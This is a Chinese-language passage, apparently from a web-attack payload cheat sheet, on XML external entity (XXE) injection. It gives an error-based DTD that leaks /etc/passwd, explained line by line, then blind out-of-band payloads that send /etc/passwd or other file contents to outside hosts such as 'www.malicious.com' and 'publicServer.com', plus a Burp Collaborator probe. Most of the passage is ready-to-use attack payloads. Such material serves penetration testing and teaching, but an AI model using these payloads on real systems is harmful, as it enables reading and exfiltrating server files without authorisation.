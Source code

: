 **ext.dtd的内容**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

让我们分解有效载荷：

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
   这一行定义了一个名为file的外部实体，它引用了/etc/passwd文件的内容（类Unix系统文件，包含用户帐户详细信息）。
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
   这一行定义了一个名为eval的实体，其中包含另一个实体定义。这个其他实体（error）旨在引用一个不存在的文件，并将file实体的内容（/etc/passwd的内容）附加到文件路径的末尾。`&#x25;`是URL编码的'`%`'，用于在实体定义中引用实体。
3. `%eval;`
   这一行使用eval实体，导致定义了error实体。
4. `%error;`
   最后，这一行使用error实体，它尝试访问一个包含/etc/passwd内容的文件路径的不存在文件。由于文件不存在，将会抛出错误。如果应用程序向用户报告错误并在错误消息中包含文件路径，则/etc/passwd的内容将作为错误消息的一部分被披露，泄露敏感信息。

## 利用盲XXE进行带外数据窃取

有时你可能无法在页面中看到结果输出，但你仍然可以通过带外攻击提取数据。

### 基础盲XXE

测试盲XXE最简单的方法是尝试加载远程资源，例如Burp Collaborator。

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

将`/etc/passwd`的内容发送到"www.malicious.com"，你可能只收到第一行。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB攻击（Yunusov, 2013）

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

存储在http://publicServer.com/parameterEntity_oob.dtd上的文件
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```
